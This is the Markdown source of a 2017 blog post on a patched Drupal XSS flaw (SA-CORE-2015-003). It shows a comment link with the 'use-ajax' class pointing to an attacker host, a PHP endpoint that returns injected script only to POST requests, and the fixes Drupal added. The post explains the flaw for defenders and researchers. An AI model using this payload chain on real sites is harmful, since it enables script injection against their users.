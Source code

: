 ```yaml
---
layout: post
title:  "Getting creative with Drupal XSS"
date:   2017-05-28 09:56:30 -0800
categories: drupal security
---
```

In the world of web security, cross-site scripting (XSS) vulnerabilities are
extremely common, and will continue to be a problem as web applications become
increasingly complex. According to a 2016 report by Bugcrowd, a popular bug
bounty site, __"XSS vulnerabilities account for 66% of valid submissions,
followed by 20% categorized as CSRF"__ ([source]). That same report goes into
some detail about the severity of XSS (page 23), which is worth reading to
understand the scope of this kind of attack.

Drupal developers are mostly protected from XSS by the HTML filtering system,
but custom code can still allow attacks using unconventional exploits.

For a simple web application, finding an XSS vulnerability may seem trivial.
Looking at online resources, you often find code snippets like this:

{% highlight php %}
<h2>Search results for "<?php echo $_GET['q']; ?>":</h2>
{% endhighlight %}

but now-a-days, finding an exploit this obvious is unlikely, unless you're
looking at something completely hand-built. Drupal 8 makes code like this
is even more unlikely, given that the templating system has moved to Twig,
which escapes output by default and does not allow arbitrary PHP statements.

So what kind of Drupal code can trigger XSS? Let's look at a practical example
based on [SA-CORE-2015-003], which was a security release I helped out on.

_Note: The following exploit has already been fixed, don't freak out!_

Drupal has an internal AJAX system that responds to events on HTML elements,
reaching out to a JSON endpoint to perform what's known as AJAX commands. An
example of this is the autocomplete element, which triggers AJAX requests as a
user types to determine autocomplete suggestions.

You can enhance your HTML elements with this behavior like so:

{% highlight javascript %}
Drupal.ajax({
  url: '/foo',
  event: 'click',
  element: $('#my-great-link'),
});
{% endhighlight %}

but to make things easier for developers, Drupal will automatically bind AJAX
behaviors to any element with the "use-ajax" class. This may not seem like a
big deal, but many Drupal sites allow users to input HTML, and classes are
often allowed in default text filters.

To re-cap, this is what we know at this point:

1. Drupal allows users to enter HTML by default in areas like comments
1. The XSS filtering in Drupal is really good, so assume we can't bypass it
1. The class attribute is allowed in the default text filter
1. The AJAX system automatically binds on elements with the "use-ajax" class

Knowing this, we can make a comment like this:

{% highlight html %}
<a href="http://mynastysite.com/xss.php" class="use-ajax">Click me!</a>
{% endhighlight %}

and know that when the link is clicked, a POST request is made to an arbitrary
URL, and Drupal will parse the response and process AJAX commands.

The xss.php script on our endpoint could look something like this:

{% highlight php %}
<?php

// Only display the spoof response if the method is POST, this way normal users
// (i.e. non-admins) will see a normal page.
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
  // Allow any site to make a POST request here.
  header('Access-Control-Allow-Origin: *');
  // Form a bare-bones JSON response for Drupal.
  $foo = new stdClass();
  $foo->command = 'insert';
  $foo->data = '<script>alert("xss")</script>';
  $foo->method = 'append';
  $foo->selector = 'body';
  echo json_encode(array($foo));
}
// Display the normal page for GET requests.
else {
  echo "<h1>This is a normal site!</h1>";
}
{% endhighlight %}

Now when a user clicks our link, we can execute arbitrary Javascript in Drupal!

The Drupal security team has since improved the AJAX system by adding two
layers of defense:

1. When an AJAX-enabled element triggers its event (i.e. is clicked), Drupal
verifies that the URL is local before making the request (see [Drupal.url.isLocal]).
1. If a response does not contain a X-Drupal-Ajax-Token header, it is not
processed. This prevents users from making local requests to uploaded files (see [Drupal.Ajax.options.success]).

This has been fixed for about two years, but it's a great example of how
complex XSS vulnerabilities in Drupal can be.

My biggest takeaway from this is that _you don't need to bypass the XSS filter
to trigger XSS._ Get creative with your research, and don't hope to find
quick-win exploits in code like:

{% highlight twig %}
{% raw %}{{ twig_input | raw }}{% endraw %}
{% endhighlight %}

because it's unlikely that you'll get that lucky. 😁

[source]: https://pages.bugcrowd.com/hubfs/PDFs/state-of-bug-bounty-2016.pdf
[SA-CORE-2015-003]: https://www.drupal.org/SA-CORE-2015-003
[Drupal.url.isLocal]: http://cgit.drupalcode.org/drupal/tree/core/misc/drupal.js?id=d5d37e06490825d10c52545433773e22fe6b61fb#n146
[Drupal.Ajax.options.success]: http://cgit.drupalcode.org/drupal/tree/core/misc/ajax.js?id=d5d37e06490825d10c52545433773e22fe6b61fb#n220